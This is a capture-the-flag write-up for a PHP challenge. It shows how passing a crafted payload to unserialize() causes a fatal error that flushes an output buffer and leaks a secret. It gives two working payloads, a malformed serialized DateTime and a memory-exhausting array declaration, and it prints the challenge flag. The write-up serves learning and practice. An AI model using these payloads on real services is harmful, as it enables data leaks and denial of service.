

In this challenge, there is `unserialize` vulnerability, like in [level30](./level30.md).

However, this time this is the source code:
```php
class B {
  function __destruct() {
    echo "<!-- Almost there? -->";
  }
}

if (isset($_POST['payload'])) {
    echo "Going dark…";
    ob_start();
    echo "Here is your flag: " . $flag . "\n";
    $a = unserialize($_POST['payload']);
    ob_end_clean();
}
```

It prints the flag but calls `ob_start` before, which sends all the output to a buffer.

I googled for this, and found this [everything about output buffering in php](https://phpfashion.com/en/everything-about-output-buffering-in-php#toc-security-hole), here I saw this *security hole*:
> When the script ends, all unclosed buffers are outputted. This can be considered an unpleasant security hole if, for example, you prepare sensitive data in the buffer not intended for output and an error occurs.

Okay, I asked chatGPT for payloads that might trigger error, and got this 2 payloads

### Payload 1: DateTime with Invalid Date

```php
O:8:"DateTime":3:{s:4:"date";s:26:"9999-99-99 99:99:99.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}
```

**Explanation:**  
This payload unserializes a `DateTime` object with an invalid date string (`9999-99-99 99:99:99`). PHP throws a fatal error during object reconstruction due to the malformed date, halting execution before `ob_end_clean()` runs and leaking buffered output like the flag.

---

### Payload 2: Large Array Causing Memory Exhaustion

```php
a:99999999:{}
```

**Explanation:**  
This payload creates an extremely large array (about 100 million elements). PHP runs out of memory during `unserialize()`, triggering a fatal error. This stops further code execution, preventing the output buffer from being cleaned and allowing sensitive data to be leaked.

And when sending one of the payloads, we get the flag!



**Flag:** ***`WEBSEC{So_it_was_all_b(l)uff_in_the_end?}`*** 
